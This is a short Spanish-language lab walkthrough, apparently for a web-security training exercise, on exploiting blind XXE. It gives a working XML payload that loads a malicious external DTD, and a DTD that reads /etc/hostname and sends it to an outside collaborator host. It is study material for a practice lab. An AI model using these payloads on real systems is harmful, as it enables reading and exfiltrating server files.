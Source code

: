 ```yaml
---
layout: default
title: 5 - Exploiting blind XXE to exfiltrate data using a malicious external DTD
---
```

Una **DTD** (Document Type Definition) es un conjunto de reglas que define la **estructura y los elementos válidos** de un documento XML. En otras palabras, una DTD le dice al parser XML **cómo debe estar organizado** el documento: qué elementos puede tener, qué atributos, en qué orden, etc.


La idea es cargar una DTD de un dominio externo : 

Payload:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "https://exploit-0af900640326d05d8081dea9010600fc.exploit-server.net/exploit"> %xxe; ]>
<stockCheck><productId>2</productId><storeId>1</storeId></stockCheck>
```

**DTD**
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://7aitci4d6zry15ur9565w6tvxm3drbf0.oastify.com/?x=%file;'>"> %eval; %exfil;
```
